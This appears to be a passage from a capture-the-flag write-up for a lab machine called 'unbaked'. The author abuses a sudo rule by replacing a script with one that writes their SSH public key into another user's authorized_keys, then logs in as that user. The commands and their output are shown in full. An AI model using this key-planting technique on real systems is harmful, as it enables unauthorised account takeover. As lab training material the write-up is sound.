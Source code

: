 ### Updated vuln.py
```console
ramsey@unbaked:~$ mv vuln.py vuln.bak
ramsey@unbaked:~$ cat vuln.py 
import os

os.system('mkdir /home/oliver/.ssh')
os.system('cp /home/ramsey/oliver.pub /home/oliver/.ssh/authorized_keys')
```
Now lets run this vuln.py as user oliver.
```console
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
ramsey@unbaked:~$ cat /home/oliver/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0XLAHGE7xW3voku37VtXbaHZFdFcBTuGZGa3DaeoJbLiOpxXZDv1qZEkHhOmx8g094q7ePl0RKpvFYDhAJ8KXJqgL+NV9p53CinKzCqXzV+Y2yhQsoy2nEMuxmusNksV+60TZq1u6XZEiRZ7sjN8KRSiU51mno++9xNH0mNqmGtJX3IWgti/3O2XuPWftzyP/aDIN0MkaEmqKARZ51v+qEmeLw1Q5D+Nd0zFaArih4Tgs52Z1h1mSsElL8XBg3yIwtXbCZUnNYCJvXYXkJ31+7i0+d6/tc/lkN03ZCdSzucvZUG2rsCu6/UwZdmTAmsS2PQJHZyByUzu0MHMi57av ramsey@unbaked
```
It ran successfully and also the file is created. So, lets use SSH to login as user oliver.

### Shell as oliver
```console
ramsey@unbaked:~$ chmod 600 oliver
ramsey@unbaked:~$ ssh -i oliver oliver@unbaked
The authenticity of host 'unbaked (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:Hec+oL7z07dkDWFMy7rs73U7+7HQdo+YtQO04CsFB1k.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'unbaked' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
oliver@unbaked:~$ 
```
And we get in and also oliver is in the group sysadmin.
